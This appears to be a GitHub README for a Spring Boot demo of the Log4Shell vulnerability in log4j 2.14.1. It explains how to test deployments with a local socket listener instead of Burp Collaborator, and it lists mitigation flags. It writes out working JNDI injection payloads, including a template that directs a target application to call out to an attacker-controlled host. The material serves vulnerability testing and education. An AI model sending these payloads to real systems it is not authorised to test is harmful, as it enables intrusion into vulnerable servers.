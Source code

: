 ### Exploiting log4j issue - No need of Burp Collaborator!
This is a basic Spring Boot app which demonstrate the Log4j vulnerability.
While testing different endpoints of your application, you might need Burp Collaborator (which comes in a professional edition only).
<br>
This program uses plain socket to ensure that the your application hit the provided malicious endpoint!

**About Log4j Issue**
<br>The world knows that there is a security vulnerability in log4j versions 2.10 to 2.14.1 (Also, the patches they released also have many vulnerabilities, so please check the apache site for exact versions).

This code uses log4j 2.14.1.<br>
A REST API accepts the request parameter (param name is '_input_') and simply logs it.
To exploit the vulnerability, try using something like this (encode it before sending) -> *_${jndi:ldap://localhost:8080}_*.

Request will look like - http://localhost:8080/logme?input=${jndi:ldap://localhost:8080/test}
<br>You will notice that the logger tries to contact this jndi endpoint. As this is a fake endpoint, it fails to connect and prints the exception trace on spring app console.

**No Burp Collaborator needed**<br>
Furthermore, I've now added a server socket, which listens on port 339.<br>
You want to test your existing deployments for log4j vulnerabilities. One way is to examine the application logs, may be using splunk, to see for any unexpected logging.
Other way is to pass the host:port provided by Burp Collaborator, and poll the collaborator to know if log4j inside the application has invoked Collaborator endpoints.
<br>Log4j basically uses client socket and contacts the <host:port> provided in the payload. <br>
Once you start the socket on local, now invoke the application URL from the browser as follows (please encode the param value before invoking):
*http://<application_hostname:port>/logme?input=${jndi:ldap://<socket_ip:port>}*
<br>
Note: If your application is deployed in cloud, ensure your socket IP is accessible to the internet. You may need to deploy the socket in cloud such as on EC2 instance.<br>
But this should work on all local/inside VPN deployments.
Once the above endpoint is invoked, you will see that the server socket received an incoming connection.<br>
Congratulations! You have successfully exploited the application.

**Mitigation**<br>
One way is to pass _*LOG4J_FORMAT_MSG_NO_LOOKUPS*_ environment variable by setting its value to true.
<br>Other workaround it by setting a system property _log4j2.formatMsgNoLookups=true_<br>
Note that these are just workarounds, they may not solve the vulnerability properly.<br>
Please visit Apache website for latest updates.
https://logging.apache.org/log4j/2.x/security.html

Cheers.

